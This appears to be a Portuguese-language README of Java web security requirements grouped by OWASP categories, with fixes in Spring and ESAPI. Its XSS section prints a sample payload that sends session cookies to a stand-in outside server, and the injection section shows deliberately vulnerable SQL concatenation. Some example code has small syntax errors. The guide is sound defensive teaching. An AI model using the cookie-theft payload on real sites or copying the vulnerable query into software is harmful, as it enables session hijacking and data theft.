




<h1>
    
    <strong>Requisitos de Segurança em Aplicações Java</strong> 
</h1>

## Conteúdo

* [Injeções](#injection)
* [Cross Site Scripting - XSS](#xss)
* [Autenticação e Gerência de Sessões](#auth_flaws)
* [Referência Insegura e Direta a Objetos - IDOR](#idor)
* [Cross Site Request Forgery - CSRF](#csrf)
* [Configuração Incorreta de Segurança](#sec_misconfig)
* [Armazenamento Criptográfico Inseguro](#insec_crypt_storage)
* [Restrição de Acesso a URLs](#url_access_restriction)
* [Proteção Insuficiente na Camada de Transporte](#insec_transp_layer)

- - -

    <h3>
        
        <strong>Injeções</strong>
    </h3>
    
Falhas de injeção como: SQL <i>Injection</i>, LDAP <i>Injection</i>, <i>Command Injection</i>, entre muitas outras, ocorrem quando dados não confiáveis são enviados para o interpretador como parte de um comando ou consulta. O atacante pode usar desse ataque para obter informações sensíveis sem sua devida autorização.

<table>
    <thead>
        <tr>
            <th></th>
            <th>Requisito</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td width="20px"></td>
            <td>Utilize ferramentas de análise estática de código como [Horusec](https://docs.horusec.io/) para identificar possíveis pontos de injeção;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Utilize APIs fortemente parametrizadas para montar <i>queries</i> e chamar <i>stored procedures</i>, ou utilize bibliotecas de mapeamento objeto-relacional (ORMs) como [Hibernate](https://hibernate.org/orm/);</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Rejeite entradas inválidas ao invés de tentar sanitizar dados
maliciosos;
            </td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Utilize mecanismo de validação de entrada padrão como a especificação [Bean Validation](https://beanvalidation.org/) para validar todos os dados em tamanho, tipo, sintaxe e regras de negócio antes de exibi-los ou armazená-los;</td>
        </tr>
                <tr>
            <td width="20px"></td>
            <td>Imponha o menor privilégio quando se conectar a banco de dados ou outros
sistemas de <i>back-end</i>;</td>
        </tr>
                <tr>
            <td width="20px"></td>
            <td>Valide se dados de entrada estão sendo fornecidos para <i>queries</i> dinâmicas, como:</td>
        </tr>
    </tbody>
    <thead>
</table>

- - -

<h4><strong>Exemplo de código vulnerável:</strong></h4>
  
<pre>
        /* VULNERÁVEL */
        private User getUser(String userId) {
            String sql = "SELECT * FROM TB_USER WHERE userId = " + userId;
        }
    </pre>

<h4><strong>Guias e Artigos</strong></h4>
<i>

* [SQL Injection and How to Prevent It?](https://www.baeldung.com/sql-injection)

* [How To Prevent SQL Injections in Java](https://www.acunetix.com/how-to-prevent-sql-injections-java/)

* [LDAP and LDAP Injection/Prevention](https://www.geeksforgeeks.org/ldap-ldap-injectionprevention/)

* [Sanitizing User Input - Happy Coding](https://happycoding.io/tutorials/java-server/sanitizing-user-input)

* [Sanitizing User Input, Part I](https://thoughtfulsoftware.wordpress.com/2013/05/19/sanitizing-user-input-part-i/)

* [Sanitizing User Input, Part II (Validation with Spring REST)](https://thoughtfulsoftware.wordpress.com/2013/05/26/sanitizing-user-input-part-ii-validation-with-spring-rest/)
</i>
- - -

    <h3>
        
        <strong>Cross Site Scripting - XSS</strong>
    </h3>
    
Falhas de XSS ocorrem quando uma aplicação envia dados não confiáveis para o navegador sem que haja uma validação ou escaping. Esse tipo de falha, permite que atacantes executem scripts no navegador da vítima, podendo fazer sequestro de sessão, <i>defacement</i> ou até mesmo redirecionar o usuário para um site malicioso.

<table>
    <thead>
        <tr>
            <th></th>
            <th>Requisito</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td width="20px"></td>
            <td>Utilize ferramentas de análise estática de código como [Horusec](https://docs.horusec.io/) para identificar possíveis pontos de ataque de XSS;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Utilize mecanismo padrão de validação de entrada para validar todos os dados em tamanho, tipo, sintaxe e regras de negócio antes de exibi-los ou armazená-los. Mecanismos como whitelist ajudam a previnir esse tipo de ataque;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Especifique a codificação de saída, como por exemplo a codificação UTF-8;
            </td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Não utilize validação do tipo blacklist pois é um método fraco e pode ser contornado;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Sempre que possível, utilize bibliotecas como <a href="https://owasp.org/www-project-enterprise-security-api/">OWASP ESAPI</a> para aumentar a segurança da aplicação;</td>
        </tr>
    </tbody>
    <thead>
</table>

- - -

<h4><strong>Exemplos</strong></h4>

  - Um servidor recebe um parâmetro e retorna esse parâmetro para que seja renderizado no HTML de resposta. O parâmetro de entrada não é validado e a saída não recebe um processo de codificação (UTF-8, por exemplo) nem de <i>escape</i>.

    A aplicação confia que a requisição virá da seguinte forma:

    <pre>
    http://mysite.com?username=guilherme
    </pre>

    Servidor renderizando a requisição diretamente na página:

    <pre>
    &lthtml&gt
        &lthead>
            &lttitle>Bem-vindo(a)&lt/title&gt
        &lt/head&gt
        &ltbody&gt
            &ltdiv>Bem-vindo(a) <%= request.getParameter("username")%>&lt/div&gt
        &lt/body&gt
    &lt/html&gt
    </pre>

    Sem as devidas validações, o atacante pode enviar a seguinte requisição para exfiltrar os <i>cookies</i> de sessão para outro servidor:

    <pre>
    http://mysite.com?username=document.write('&ltimg src="https://otherserver.com/collect.gif?cookie=' + document.cookie + '" /&gt')
    </pre>

    Para corrigir, precisamos adicionar 2 passos a nossa aplicação:

    **1º Validar o parâmetro de entrada**. Utilizando a especificação Bean Validation junto com regex para validar que somente serão inseridos letras e dígitos ASCII, com hífens, <i>underscores</i> e espaços como separadores:

    <pre>
    @Controller
    public class UserController {

        public String welcomePage(
            @Pattern(
                regexp = "/^[A-Za-z0-9]+(?:[ _-[A-Za-z0-9]+)*$/") String username){
            
            // Código
        }

    }
    </pre>

    **2º <i>Encodar</i> a entrada renderizada no HTML utilizando a lib OWASP ESAPI:**

    <pre>
    &lthtml&gt
        &lthead&gt
            &lttitle&gtBem-vindo(a)&lt/title&gt
        &lt/head&gt
        &ltbody&gt
            &ltdiv&gtBem-vindo(a)
            <%= ESAPI.encoder().encodeForHTML(request.getParameter("username")) %>
            &lt/div&gt
        &lt/body&gt
    &lt/html&gt
    </pre>

<h4><strong>Guias e Artigos</strong></h4>
<i>

* [Anti-Cross-Site Scripting (XSS) for Spring Boot Apps Without Spring Security](https://dzone.com/articles/anti-cross-site-scripting-xss-for-spring-boot-apps)

* [Prevent XSS Security Threat in Spring Application](https://beansroasted.wordpress.com/2016/01/21/prevent-xss-security-threat-in-spring-application/)

* [XSS (Cross Site Scripting) Primer for Java Developers](https://www.reshiftsecurity.com/xxs-primer-for-java-developers/)
</i>

- - -

    <h3>
        
        <strong>Autenticação e Gerência de Sessões</strong>
    </h3>
    
Falhas de autenticação e gerência de sessões geralmente ocorrem por implementação incorreta do mecanismo. O atacante pode não só comprometer senhas, chaves de segurança ou <i>tokens</i> de sessão, como também pode aproveitar dessa falha para explorar outras falhas para assumir o controle da identidade do usuário.

<table>
    <thead>
        <tr>
            <th></th>
            <th>Requisito</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td width="20px"></td>
            <td>Implemente um sistema de <i>logs</i> auditável para controles de autenticação e autorização. Perguntas como "Quem logou?", "Quando?", "De onde?", "Quais dados foram acessados?" e "Que transações o usuário fez?", devem ser respondidas facilmente com os <i>logs</i>;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Utilize exclusivamente o mecanismo de gerência de sessão embutido. Não escreva o seu próprio mecanismo nem controladores de sessão secundários;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Não aceite identificadores de sessão novos, pré-definidos ou inválidos da URL ou no <i>request</i>;
            </td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Use um único mecanismo de autenticação suficientemente forte e com vários fatores como JWT e Google Authenticator;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Implemente uma política forte de senhas para os usuários;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Não permita que o processo de <i>login</i> inicie de uma página sem criptografia;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Considere gerar uma nova sessão depois de uma autenticação com sucesso ou mudança de privilégios;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Verifique se todas as páginas têm um <i>link</i> para o <i>logout</i>. O <i>logout</i> deve destruir todo o estado da sessão no lado servidor e os <i>cookies</i> no lado cliente;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Utilize um período de <i>timeout</i> que automaticamente realiza o <i>logout</i> de uma sessão inativa;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Exija que usuário informe a senha antiga quando solicitada a alteração da mesma;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Não confie em credenciais que podem ser “falsificadas” como única forma de autenticação, como endereços IP ou máscaras de endereço;</td>
        </tr>
    </tbody>
    <thead>
</table>

- - -

<h4><strong>Guias e Artigos</strong></h4>
<i>

* [Controlar a Sessão com Spring Security](https://www.codeflow.site/pt/article/spring-security-session)

* [Keep Track of Logged In Users with Spring Security](https://www.baeldung.com/spring-security-track-logged-in-users)

* [Using JWT with Spring Security OAuth](https://www.baeldung.com/spring-security-oauth-jwt)

* [Password Policy Recommendations: Here's What You Need to Know.](https://www.hpe.com/us/en/insights/articles/password-policy-recommendations-heres-what-you-need-to-know-1908.html)
</i>

- - -

    <h3>
        
        <strong>Referência Insegura e Direta a Objetos - IDOR</strong>
    </h3>
    
A referência insegura e direta a objeto, ou IDOR - <i>Insecure Direct Object References</i> ocorre quando o desenvolvedor expõe uma referência a objetos internos da aplicação <i>web</i> e o atacante consegue alterar esse parâmetro obtendo, dessa forma, acesso a informações confidenciais. Os objetos internos podem ser, por exemplo, um arquivo, um diretório ou um registro do banco de dados exposto através de uma URL ou formulário. O atacante é um usuário autorizado no sistema que altera o valor de um parâmetro, que se refere diretamente a um objeto no sistema, para um outro objeto na qual não teria autorização.

<table>
    <thead>
        <tr>
            <th></th>
            <th>Requisito</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td width="20px"></td>
            <td>Utilize ferramentas de análise estática de código como <a href="https://docs.horusec.io/">Horusec</a> para identificar possíveis pontos de ataque de IDOR;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Evite expor referências de objetos privados para os usuários sempre que possível como: chaves primárias ou nome de arquivos;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Verifique a autorização para todos os objetos referenciados;
            </td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Certifique-se de que a entrada não contenha padrões de ataque como ../ ou %00;</td>
        </tr>
    </tbody>
    <thead>
</table>

- - -

<h4><strong>Exemplos</strong></h4>

- Uma das técnicas que podemos usar para evitar esse tipo de ataque, é armazenar o ID das entidades com UUID. Utilizando Spring Data JPA, podemos alterar o tipo do atributo para que ele seja persistido como UUID:

<pre>
    @Entity
    @Table("TB_ALBUM")
    public class Album {

        @Id
        @GeneratedValue(strategy = GenerationType.AUTO)
        @Column(name = "id", updatable = false, unique = true, nullable = false)
        private UUID id;

        @Column(name = "nome", nullable = false)
        private String nome;

    }
</pre>

<h4><strong>Guias e Artigos</strong></h4>
<i>

* [OWASP TOP 10 API Security Part 2 (Broken Object Level Authorization)](https://dzone.com/articles/api12019-broken-object-level-authorization)
</i>

- - -

    <h3>
        
        <strong>Cross Site Request Forgery - CSRF</strong>
    </h3>
    
Este ataque ocorre quando uma requisição HTTP é feita entre <i>sites</i> na tentativa de se passar por um usuário legítimo. Quem se utiliza desse tipo de ataque normalmente foca em fazê-lo esperando que usuário alvo esteja autenticado no <i>site</i> onde a requisição fraudulenta será realizada, a fim de se ter mais privilégios e acessos.

<table>
    <thead>
        <tr>
            <th></th>
            <th>Requisito</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td width="20px"></td>
            <td>Utilize ferramentas de análise estática de código como <a href="https://docs.horusec.io/">Horusec</a> para identificar possíveis pontos de ataque de CSRF;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Garanta que não haja vulnerabilidades de [XSS](#xss);</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Insira <i>tokens</i> personalizados e aleatórios em todos os formulários e URLs que não serão automaticamente enviadas pelo navegador;
            </td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Para dados sensíveis ou transações de valor, re-autentique ou utilize assinatura de transações para garantir que o pedido é genuíno. Implemente mecanismos externos como <i>email</i> ou telefone para verificar pedidos ou notificar o usuário;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Não utilize <i>requests</i> GET (URLs) para dados sensíveis ou para realizar transações de valor. Use apenas métodos POST quando for processar dados sensíveis do usuário. Entretanto a URL pode conter o <i>token</i> aleatório e com isso criar uma URL única, o que torna o CSRF quase impossível de realizar;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Utilizar somente POST é insuficiente como proteção. Você também deve combiná-lo
com <i>tokens</i> aleatórios, autenticação <i>out of band</i> ou re-autenticação para
proteger apropriadamente contra CSRF;</td>
        </tr>
    </tbody>
    <thead>
</table>

- - -

<h4><strong>Exemplos</strong></h4>

- Por exemplo, o nome e o valor do campo oculto são únicos para cada <i>request</i>:

<pre>
    &ltform action="/login" method="post"&gt
        &ltinput type="hidden" name="8438927730" value="43847384383">
    &lt/form&gt
</pre>

<h4><strong>Guias e Artigos</strong></h4>
<i>

* [A Guide to CSRF Protection in Spring Security](https://www.baeldung.com/spring-security-csrf)
* [CSRF Protection with Spring MVC and Thymeleaf](https://www.baeldung.com/csrf-thymeleaf-with-spring-security)
* [Basic CSRF Attack Simulation & Protection with Spring Security](https://medium.com/@danismaz.furkan/basic-csrf-attack-simulation-protection-with-spring-security-82c37810a90)  
</i>

- - -

    <h3>
        
        <strong>Configuração Incorreta de Segurança</strong>
    </h3>
    
Falhas na configuração de segurança ocorrem geralmente quando as configurações de aplicação, frameworks, servidores de aplicação, servidores web, servidores de banco de dados, entre outras, são deixadas como padrão. Já que as mesmas são colocadas de forma a garantir apenas o mínimo de segurança, muitos outros mecanismos são deixados para que sejam ativados pelos próprios desenvolvedores e mantenedores da aplicação.

<table>
    <thead>
        <tr>
            <th></th>
            <th>Requisito</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td width="20px"></td>
            <td>Utilize ferramentas de análise estática de código como [Horusec](https://docs.horusec.io/) para identificar logs sensíveis expostos e outros pontos de <i>misconfiguration</i>;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Certifique-se de que todo o time de desenvolvimento do software compartilhe uma abordagem em comum para o tratamento de exceções;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Desabilite ou limite tratamento de erros detalhados. Em particular, não exiba informações de <i>debug</i> para os usuários finais, <i>stack traces</i> ou informações de caminhos;
            </td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Valide se erros de todas as camadas da aplicação estão sendo tratados de forma correta, de forma a impedir que mensagens detalhadas contendo erros em servidores, bancos de dados, entre outros cheguem no usuário final;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Fique atento a </i>frameworks</i> que retornam códigos de erros HTTP diferentes dependendo se o erro esta dentro do seu código ou dentro do código do <i>framework</i>. Para garantir, crie um tratador de erros padrão que retorne mensagem de erro sanitizada e adequada para os usuários finais;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Sempre dê a mensagem de erro que “O usuário ou a senha não estão corretos” do que “A senha não está correta” para falhas de <i>login</i>;</td>
        </tr>
    </tbody>
    <thead>
</table>

- - -

<h4><strong>Guias e Artigos</strong></h4>
<i>

* [Security Misconfiguration](https://hdivsecurity.com/docs/security-misconfiguration/)

* [OWASP Security Misconfiguration Vulnerability](https://www.indusface.com/blog/owasp-security-misconfiguration/)
</i>

- - -

    <h3>
        
        <strong>Armazenamento Criptográfico Inseguro</strong>
    </h3>
    
Falhas ao criptografar os dados sensíveis são bastante difundidas. Aplicações frequentemente contêm criptografia desenvolvida de forma errada ou fraca, utilizando cifras inapropriadas ou cometendo sérios erros utilizando cifras fortes. Estas falhas podem levar ao comprometimento de dados sensíveis e violações de conformidade.

<table>
    <thead>
        <tr>
            <th></th>
            <th>Requisito</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td width="20px"></td>
            <td>Utilize ferramentas de análise estática de código como <a href="https://docs.horusec.io/">Horusec</a> para identificar pontos com <i>hash</i> ou criptografia fraca;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Utilize apenas algoritmos públicos e aprovados como AES, RSA, criptografia de chave pública e SHA-256 ou maior
para <i>hashing</i>;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td><b>Não utilize</b> algoritmos fracos como MD5 ou SHA-1;
            </td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Gere as chaves <i>offline</i> e armazene as chaves privadas com extrema cautela. Nunca transmita chaves privadas por um canal inseguro;</td>
        </tr>
                <tr>
            <td width="20px"></td>
            <td>Certifique-se de que as credenciais de infra-estrutura como banco de dados, <i>middlewares</i>, entre outros, estão seguras ou criptografadas de forma segura;</td>
        </tr>
                <tr>
            <td width="20px"></td>
            <td>Certifique-se de que os dados criptografados armazenados no disco não são facilmente descriptografados;</td>
        </tr>
                <tr>
            <td width="20px"></td>
            <td>Caso a aplicação manipule dados de cartão de crédito, certifique-se que a mesma está em conformidade com a <a href="https://www.pagbrasil.com/pt-br/insights/pci-dss-requisitos/">PCI DSS</a>;</td>
        </tr>
    </tbody>
    <thead>
</table>

- - -

<h4><strong>Guias e Artigos</strong></h4>
<i>
  
* [Spring Boot JPA Data Encryption](https://medium.com/faun/spring-boot-jpa-data-encryption-a8e7cacfa8e8)
  
* [Spring Cloud Config - Asymmetric Encryption and Decryption](https://www.appsdeveloperblog.com/spring-cloud-config-asymmetric-encryption-and-decryption/)

* [Handling Passwords with Spring Boot and Spring Security](https://reflectoring.io/spring-security-password-handling/)
</i>

- - -

    <h3>
        
        <strong>Restrição de Acesso a URLs</strong>
    </h3>
    
Frequentemente, a única proteção para uma URL é que <i>links</i> para aquela página não são apresentados para usuários não autorizados. Verificação de controle de acesso deve ser realizada antes que um pedido para URLs sensíveis seja realizado, o que garante que o usuário está autorizado a acessá-la.

<table>
    <thead>
        <tr>
            <th></th>
            <th>Requisito</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td width="20px"></td>
            <td>Garanta que todas as URLs e funções de negócio estão protegidas por um controle de acesso efetivo que verifica o perfil do usuário e suas permissões antes de realizar qualquer processamento;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Garanta que ações administrativas e de alto privilégio estão protegidas;
</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Bloqueie o acesso a todos os tipos de arquivos que sua aplicação nunca deverá fornecer, como arquivos de log;
            </td>
        </tr>
    </tbody>
    <thead>
</table>

- - -

<h4><strong>Exemplos</strong></h4>

Neste exemplo estamos permitindo acesso somente para usuários com <i>role</i> admin na URL /admin e exigindo que qualquer outro <i>request</i> para outras URLs esteja autenticado:

<pre>
public class MyConfig extends WebSecurityConfigurerAdapter {

    @Override
    protected void configure(HttpSecurity http) throws Exception {
        http
            .authorizeRequests()
                .antMatchers("*/admin/**).hasRole('ADMIN')
                .anyRequest().authenticated()
                .and()
            .formLogin();
    }

}
</pre>

<h4><strong>Guias e Artigos</strong></h4>
<i>

* [Securing URLs Using Spring Security](https://dzone.com/articles/securing-urls-using-springnbspsecurity)
</i>

- - -

    <h3>
        
        <strong>Proteção Insuficiente na Camada de Transporte</strong>
    </h3>
    
As aplicações frequentemente falham em criptografar o tráfego da rede quando é necessário proteger comunicações sensíveis. Criptografia, normalmente deve ser utilizada para todas as conexões autenticadas, tanto em páginas <i>web</i> acessíveis pela Internet como conexões de <i>backend</i>. Caso contrário, a aplicação irá expor uma autenticação ou <i>token</i> de sessão. Sempre que houver dados sensíveis, como cartões de crédito, deve-se utilizar criptografia.

<table>
    <thead>
        <tr>
            <th></th>
            <th>Requisito</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td width="20px"></td>
            <td>Utilize SSL para todas as conexões que são autenticadas ou transmitem dados sensíveis ou de valor, como credenciais, detalhes de cartão de crédito, informações de saúde e outras informações privadas;</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Certifique-se de que as comunicações entre elementos de infraestrutura, como entre o servidor web e o sistema de banco de dados, estão protegidas apropriadamente através do uso de segurança na camada de transporte ou criptografia a nível de protocolo para credenciais e dados valiosos;
</td>
        </tr>
        <tr>
            <td width="20px"></td>
            <td>Quando utilizar SSL, utilize para toda a sessão. Apenas proteger as credenciais de </i>login</i> é insuficiente porque dados e informações da sessão devem ser criptografados também;
            </td>
        </tr>
                <tr>
            <td width="20px"></td>
            <td>Caso a aplicação manipule dados de cartão de crédito, certifique-se que a mesma está em conformidade com a [PCI DSS](https://www.pagbrasil.com/pt-br/insights/pci-dss-requisitos/);
            </td>
        </tr>
    </tbody>
    <thead>
</table>

- - -

<h4><strong>Guias e Artigos</strong></h4>
<i>

* [Spring Boot SSL Example](https://howtodoinjava.com/spring-boot/spring-boot-ssl-https-example/)

* [Configurando SSL/TLS no Jboss/Tomcat](https://imasters.com.br/back-end/configurando-ssl-tls-no-jboss-tomcat)
</i>

- - -

<h2>Licenças</h2>

    
Icons made by <a href="https://www.flaticon.com/authors/freepik" title="Freepik">Freepik</a> and <a href="https://www.flaticon.com/authors/flat-icons" title="Flat Icons">Flat Icons</a> from <a href="https://www.flaticon.com/" title="Flaticon">www.flaticon.com</a>

